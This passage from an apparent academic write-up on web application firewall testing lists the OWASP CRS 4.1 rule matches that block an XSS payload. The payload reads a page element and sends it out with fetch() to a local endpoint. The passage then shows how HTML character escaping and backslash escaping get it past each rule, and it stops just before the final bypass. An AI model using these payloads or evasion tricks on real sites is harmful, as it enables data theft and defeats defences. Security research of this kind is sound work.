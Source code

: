 \begin{lstlisting}[style=ruleStyle, language=XML, caption=Secret exfiltration XSS blocked, label={lst:storedxssblocked}]
<payload><a href=javascript:var secret = document.getElementsByName('name')[0].innerHTML;var data = {body:secret,method:'POST'};fetch('http://localhost:3001/api/ping?secret='+secret,data)>ClickMeFor$</a></payload>

<message>"Possible Server Side Request Forgery (SSRF) Attack: Cloud provider metadata URL in Parameter"</message>
<file>"/rules/REQUEST-934-APPLICATION-ATTACK-GENERIC.conf"</file>
<fileDetails>[line "88"] [id "934110"]<fileDetails>
<MatchedData>"http://localhost"</MatchedData>

<message>"NoScript XSS InjectionChecker: Attribute Injection"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "225"] [id "941170"]<fileDetails>
<MatchedData>"javascript:[...]"</MatchedData>

<message>"Node-Validator Deny List Keywords"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "252"] [id "941180"]<fileDetails>
<MatchedData>".innerhtml"</MatchedData>

<message>"IE XSS Filters - Attack Detected"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "323"] [id "941210"]<fileDetails>
<MatchedData>"javascript:v"</MatchedData>
\end{lstlisting}
\acrshort{html} character reference substitution was used to substitute certain characters.
On escaping of the latin character \verb|a| in \verb|javascript:|, the payload:

\begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^]
<a href=j&^\#^97vascript:var secret = document.getElementsByName('name')[0].innerHTML;var data = {body:secret,method:'POST'};fetch('http://localhost:3001/api/ping?secret='+secret,data)>ClickMeFor$</a>
\end{lstlisting}
evaded the \acrshort{crs} 4.1 rules with ids \verb|941170| and \verb|941210|.
On escaping the \verb|.| in \\ \verb|getElementsByName('name')[0].innerHTML|, the payload:

\begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^]
<a href=j&^\#^97vascript:var secret = document.getElementsByName('name')[0]&^\#^46innerHTML;var data = {body:secret,method:'POST'};fetch('http://localhost:3001/api/ping?secret='+secret,data)>ClickMeFor$</a>
\end{lstlisting}
successfully evaded \acrshort{crs} 4.1 rule with id \verb|941180|.
Finally one of the forward-slashes \verb|/| in the url-string given to the JavaScript function \verb|fetch()| was escaped by prepending it with a back-slash \verb|\|.
Escaping any normal character with a back-slash \verb|\| is allowed in JavaScript (Section~\ref{sec:jsescape}) and successfully made the payload evade the last remaining rule: \verb|934110|.
The bypassing payload:

